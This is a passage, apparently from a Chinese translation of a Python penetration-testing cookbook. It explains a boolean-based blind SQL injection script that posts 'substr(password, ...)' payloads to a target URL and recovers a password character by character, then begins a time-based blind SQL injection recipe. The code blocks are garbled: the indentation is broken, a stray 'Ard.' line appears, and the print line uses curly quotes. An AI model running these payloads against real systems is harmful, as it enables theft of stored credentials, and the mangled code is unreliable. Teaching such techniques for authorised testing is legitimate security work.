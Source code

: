 如果我们没有检测到`yes`值，我们将`1`添加到`i`并继续循环：

```
Ard.
else:
    i = i+1
```

使用目标字符串的标识长度，我们迭代每个字符，并使用`asciivalue`遍历该字符的每个可能值。对于每个值，我们将其提交到目标 URL。因为 ascii 表只运行到`127`，所以我们将循环设置为运行到`asciivalue`达到`126`为止。如果达到`127`，则表示出现问题：

```
for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
    req = requests.post('<target url>', data=payload)
```

我们检查响应中是否存在 yes 字符串，如果存在，则中断以转到下一个字符。我们将成功消息以字符形式附加到应答字符串，并使用`chr`命令进行转换：

```
if yes in req.text:
    answer.append(chr(asciivalue))
break
```

如果`yes`值不存在，我们将`asciivalue`添加到该位置的下一个潜在角色并通过：

```
else:
      asciivalue = asciivalue + 1
      pass
```

最后，我们为每个循环重置`asciivalue`，然后当循环到达字符串长度时，我们完成，打印整个恢复的字符串：

```
asciivalue = 1
print “Recovered String: “+ ''.join(answer)
```

## 还有更多…

这个脚本可能会被修改，以便通过更好的 SQL 注入字符串处理表中的迭代和恢复多个值。最终，这为开发更复杂和令人印象深刻的脚本以处理具有挑战性的任务提供了一个基础，就像后来的盲 SQL 注入脚本一样。有关这些概念的高级实现，请参见*利用盲 SQL 注入*脚本。

# 利用盲 SQL 注入

有时候，生活会给你柠檬；盲目的 SQL 注入点就是其中的一些柠檬。当您合理地确定已发现 SQL 注入漏洞，但没有错误且无法让它返回数据时，在这些情况下，您可以使用 SQL 中的计时命令使页面暂停以返回响应，然后使用该计时对数据库及其数据进行判断。

我们将创建一个脚本，该脚本向服务器发出请求，并根据请求的字符返回不同时间的响应。然后它将读取这些时间并重新组合字符串。

## 怎么做…
